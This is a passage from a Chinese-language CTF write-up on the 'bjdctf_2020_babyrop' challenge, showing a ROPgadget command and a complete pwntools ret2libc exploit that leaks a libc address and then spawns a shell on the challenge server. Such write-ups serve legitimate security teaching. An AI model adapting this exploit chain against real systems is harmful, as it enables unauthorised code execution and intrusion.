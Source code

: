 使用如下命令寻找pop rdi

```shell
ROPgadget --binary bjdctf_2020_babyrop --only 'pop|ret'
```

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret8.png?x-oss-process=style/watermark" style="zoom:80%;" />

exp：

```python
from pwn import*
from LibcSearcher import*
r=remote('node4.buuoj.cn',29333)
elf=ELF('./bjdctf_2020_babyrop')

main=0x04006AD
pop_rdi=0x0400733
ret=0x04004c9

puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
payload1='a'*0x28+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
r.recvuntil("story!\n")
r.sendline(payload1)

puts_addr = u64(r.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
print hex(puts_addr)

libc=LibcSearcher('puts',puts_addr)
offset=puts_addr-libc.dump('puts')
binsh=offset+libc.dump('str_bin_sh')
system=offset+libc.dump('system')

payload2='a'*0x28+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)
r.recvuntil("story!\n")
r.sendline(payload2)
r.interactive()
```

由于使用了LibcSearch，找到了不同版本的libc，在这里选择一个能用的就可以了（可以一个个尝试）：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret9.png?x-oss-process=style/watermark" style="zoom:80%;" />

在这里，选择了第0个libc，成功获取flag。
